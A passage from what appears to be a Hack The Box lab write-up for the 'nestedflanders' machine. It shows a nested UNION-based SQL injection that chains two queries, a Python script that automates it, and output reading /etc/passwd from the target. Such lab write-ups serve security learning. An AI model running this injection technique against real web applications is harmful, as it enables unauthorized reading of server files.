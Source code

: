 The first thing I test is to check if I can display the Contact page by returning `contact` instead of `main` from the first query against the `idname` table.

This is the query I want to run against the `idname` table: `SELECT name FROM idname WHERE id = '25' UNION SELECT ALL 'contact'`

Output from my script below:
```
# python sqli.py
> 25' union select all 'contact'
[...]
<body class="container">
Hello visitor,<br/>

thanks for getting in touch with us!<br/>
Unfortunately our server is under *heavy* attack and we disable almost every dynamic page.<br/>
Please come back later.
```

Ok, so that was successful and the Contact page was returned so the first injection worked. What I want to do now is inject another SQL injection in the `name` field returned instead of the actual name value so I can use the same UNION SELECT injection on the 2nd query and return a filename of my choosing.

This is the query I want to run against the `filepath` table: `SELECT path FROM filepath WHERE name = 'invalid' UNION SELECT ALL '/etc/passwd'`.

I made another script to do this:

```python
from bs4 import BeautifulSoup
import readline
import requests

proxies = { "http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080" }

while True:
    file = raw_input("> ")
    payload = "25' union select all \"%s\" -- -" % ("invalid' union select all '" + file)
    r = requests.get("https://www.nestedflanders.htb/index.php?id=%s" % payload, proxies=proxies, verify=False)
    soup = BeautifulSoup(r.text, 'html.parser')
    print soup.body
```

The 2nd query now returns a file name that I control and I can read files on the target system:

```
# python sqli3.py
> /etc/passwd
[...]
<!-- <div align="center"> -->
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
```